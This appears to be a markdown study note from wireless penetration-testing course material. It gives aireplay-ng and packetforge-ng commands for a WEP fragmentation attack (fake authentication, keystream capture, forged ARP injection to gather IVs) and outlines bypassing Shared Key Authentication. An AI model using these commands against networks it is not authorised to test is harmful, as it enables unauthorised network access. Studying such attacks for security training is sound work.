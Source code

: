 - Steps:

1. Authenticate to the AP
```
aireplay-ng -1 6000 -q 10 -a <BSSID> <interface>
```

2. Start aireplay fragmentation attack
```
aireplay-ng -5  -b <BSSID> -c <source_mac> <interface>
```
// -5 = indicates the fragmentation attack
// source_mac = your wireless adapter MAC

> At some point, if you are lucky, you will get a data packet transmitted from the AP. 
These are distinguishable by the FromDS bit set to 1.

// the aireplay-ng saves the obtained keystream to a file so now we can forge packets with it.

### Troubleshooting
- Fragmentation attack can sometimes fail. If you are not able to obtain a keystream, please be sure you are associated to the network and close enough to reach the AP with your wireless signal.
- not enouch acks, repeating:
- When getting this message from aireplay output, the aircrack documentation suggests to move closer or further away from the AP.

3. With the capture PRGA we now build an ARP request packet using this command:
```
packetforge-ng -0 -a <BSSID> -h <source_mac> -k <ip1> -l <ip2> -y <prga.xor> -w <outfile>
```

// This command creates the packet and saves it to the specified output file
// The -0 flag tells packetforge that we want to build an ARP request looking For the MAC address of ip1. Ip2 is the IP address that is starting the request. As usual, we set the BSSID of the target network and use our wireless adapter MAC address as the source.
// We used 255.255.255.255 as the value For both -k and -l. Many APs just ignore the IP address used in the ARP so using this value will be fine most of the time.

- We will start injecting packets thus generating new IVs so start up airodump to save them.

To inject the forged ARP request:
```
aireplay-ng -2 -r <packet-file> <interface>
```
// the packet generated in the previous step
// The AP should start replaying the inject packets.
// means that the **#Data** should increase
// As we now have a way to generate new traffic, we can proceed through the usual attack process
// We will gather IVs and run aircrack as we previously seen.


## Bypassing Shared Key Authentication
- The attacks we have mounted thus far are targeted to WEP networks using Open Authentication
- But there is WEP with SKA (Shared Key Authentication)

Review the steps involved in this attack:
```
1. Deauthenticate one victim client
2. Obtain keystream from captured authentication frames
3. Authenticate with the AP using recovered keystream
4. Initiate ARP replay attack
```

